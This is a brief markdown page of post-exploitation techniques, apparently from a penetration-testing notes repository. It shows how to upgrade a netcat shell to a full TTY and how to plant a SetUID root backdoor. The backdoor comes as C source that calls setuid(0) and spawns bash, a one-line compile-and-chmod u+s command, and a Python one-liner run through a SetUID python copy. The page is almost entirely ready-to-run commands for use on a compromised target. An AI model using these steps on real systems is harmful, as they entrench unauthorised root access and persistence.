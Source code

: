# Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>
```

## SetUID 

### C Version

If you need a basic C program that you can set the SetUID bit, use this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }
```

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

```bash
gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid
```

### Python Version

If compiling a C program is annoying, an alternative method is to SetUID the python executable. Rather than using the system one, it's better to copy the python executable on the system somewhere else, and then SetUID your temporary copy. Then, run the following:

```python
python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

